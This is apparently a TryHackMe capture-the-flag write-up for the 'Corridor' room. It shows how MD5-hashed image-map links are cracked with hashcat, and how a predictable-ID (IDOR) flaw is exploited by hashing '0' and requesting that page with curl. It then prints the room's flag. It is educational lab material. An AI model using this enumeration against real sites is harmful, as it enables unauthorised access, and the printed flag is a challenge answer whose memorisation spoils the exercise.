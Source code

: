 # Corridor Write-up

<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/04afd126bf7a729eec5ff41e5b9b1212.png" width="200" height="200">

Difficulty: Easy

room link: https://tryhackme.com/room/corridor

--------------------------------------------------------------------------------------------------------------------------------

Given a web-site, where we see this main page 

![image](https://github.com/zer00d4y/writeups/assets/128820441/faa857c3-684d-4fcf-bbb2-068332483a66)

If we try to click on the door, we'll be taken to a page with an empty room.

![image](https://github.com/zer00d4y/writeups/assets/128820441/8022f5db-c036-435d-a342-065347ecd56c)

In the source code we can see the link of the doors 

    ...
                <area target="" alt="c4ca4238a0b923820dcc509a6f75849b" title="c4ca4238a0b923820dcc509a6f75849b" href="c4ca4238a0b923820dcc509a6f75849b" coords="257,893,258,332,325,351,325,860" shape="poly">
                <area target="" alt="c81e728d9d4c2f636f067f89cc14862c" title="c81e728d9d4c2f636f067f89cc14862c" href="c81e728d9d4c2f636f067f89cc14862c" coords="469,766,503,747,501,405,474,394" shape="poly">
                <area target="" alt="eccbc87e4b5ce2fe28308fd9f2a7baf3" title="eccbc87e4b5ce2fe28308fd9f2a7baf3" href="eccbc87e4b5ce2fe28308fd9f2a7baf3" coords="585,698,598,691,593,429,584,421" shape="poly">
                <area target="" alt="a87ff679a2f3e71d9181a67b7542122c" title="a87ff679a2f3e71d9181a67b7542122c" href="a87ff679a2f3e71d9181a67b7542122c" coords="650,658,644,437,658,652,655,437" shape="poly">
                <area target="" alt="e4da3b7fbbce2345d7772b0674a318d5" title="e4da3b7fbbce2345d7772b0674a318d5" href="e4da3b7fbbce2345d7772b0674a318d5" coords="692,637,690,455,695,628,695,467" shape="poly">
                <area target="" alt="1679091c5a880faf6fb5e6087eb1b2dc" title="1679091c5a880faf6fb5e6087eb1b2dc" href="1679091c5a880faf6fb5e6087eb1b2dc" coords="719,620,719,458,728,471,728,609" shape="poly">
                <area target="" alt="8f14e45fceea167a5a36dedd4bea2543" title="8f14e45fceea167a5a36dedd4bea2543" href="8f14e45fceea167a5a36dedd4bea2543" coords="857,612,933,610,936,456,852,455" shape="poly">
                <area target="" alt="c9f0f895fb98ab9159f51fd0297e236d" title="c9f0f895fb98ab9159f51fd0297e236d" href="c9f0f895fb98ab9159f51fd0297e236d" coords="1475,857,1473,354,1537,335,1541,901" shape="poly">
                <area target="" alt="45c48cce2e2d7fbdea1afc51c7c6ad26" title="45c48cce2e2d7fbdea1afc51c7c6ad26" href="45c48cce2e2d7fbdea1afc51c7c6ad26" coords="1324,766,1300,752,1303,401,1325,397" shape="poly">
                <area target="" alt="d3d9446802a44259755d38e6d163e820" title="d3d9446802a44259755d38e6d163e820" href="d3d9446802a44259755d38e6d163e820" coords="1202,695,1217,704,1222,423,1203,423" shape="poly">
                <area target="" alt="6512bd43d9caa6e02c990b0a82652dca" title="6512bd43d9caa6e02c990b0a82652dca" href="6512bd43d9caa6e02c990b0a82652dca" coords="1154,668,1146,661,1144,442,1157,442" shape="poly">
                <area target="" alt="c20ad4d76fe97759aa27a0c99bff6710" title="c20ad4d76fe97759aa27a0c99bff6710" href="c20ad4d76fe97759aa27a0c99bff6710" coords="1105,628,1116,633,1113,447,1102,447" shape="poly">
                <area target="" alt="c51ce410c124a10e0db5e4b97fc2af39" title="c51ce410c124a10e0db5e4b97fc2af39" href="c51ce410c124a10e0db5e4b97fc2af39" coords="1073,609,1081,620,1082,459,1073,463" shape="poly">
    ...

Pay attention to the link of each page it looks like a hash, let's decrypt it with hashcat 

### Hashcat 

`hashcat -a 0 -m 0 hash wordlist`

    ┌──(kali㉿kali)-[~/wordlist]
    └─$ hashcat -a 0 -m 0 hash.txt rockyou.txt        
    
    Dictionary cache hit:
    * Filename..: rockyou.txt
    * Passwords.: 14344384
    * Bytes.....: 139921497
    * Keyspace..: 14344384
    
    8f14e45fceea167a5a36dedd4bea2543:7                        
                                                              
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 0 (MD5)
    Hash.Target......: 8f14e45fceea167a5a36dedd4bea2543
    Time.Started.....: Thu Feb 15 03:01:17 2024 (2 secs)
    Time.Estimated...: Thu Feb 15 03:01:19 2024 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:   739.0 kH/s (0.33ms) @ Accel:256 Loops:1 Thr:1 Vec:8
    Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
    Progress.........: 442368/14344384 (3.08%)
    Rejected.........: 0/442368 (0.00%)
    Restore.Point....: 440832/14344384 (3.07%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
    Candidate.Engine.: Device Generator
    Candidates.#1....: 940706 -> 55555c
    Hardware.Mon.#1..: Util: 28%

Now, we know it's an md5 hash.

There is a simple IDOR vulnerability where for directories are encoded into an md5 hash 

corridor.thm/8f14e45fceea167a5a36dedd4bea2543 => corridor.thm/7

Using echo or another tool or an online MD5 decoder, we need to encode the 0 into an MD5 hash

    ┌──(kali㉿kali)-[~]
    └─$ echo -n "0" | md5sum
    cfcd208495d565ef66e7dff9f98764da

Wisit page with cURL 

`curl http://corridor.thm/cfcd208495d565ef66e7dff9f98764da`

    ┌──(kali㉿kali)-[~]
    └─$ curl http://corridor.thm/cfcd208495d565ef66e7dff9f98764da                  
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.0/css/bootstrap.min.css"
            integrity="sha384-9aIt2nRpC12Uk9gS9baDl411NQApFmC26EwAOH8WgZl5MYYxFfc+NcPb1dKGj7Sk" crossorigin="anonymous">
        <title>Corridor</title>
    
        <link rel="stylesheet" href="/static/css/main.css">
    </head>
    
    <body>
        
    
    <style>
        body{
            background-image: url("/static/img/empty_room.png");
            background-size:  cover;
        }
    
        h1 {
            width: 100%;
            position: absolute;
            top: 40%;
            text-align: center;
        }
    </style>
    <h1>
        flag{2477ef02448ad9156661ac40a6b8862e}
    </h1>
    
    </body>
    </html>

So, flag is: 

    flag{2477ef02448ad9156661ac40a6b8862e}


                                        
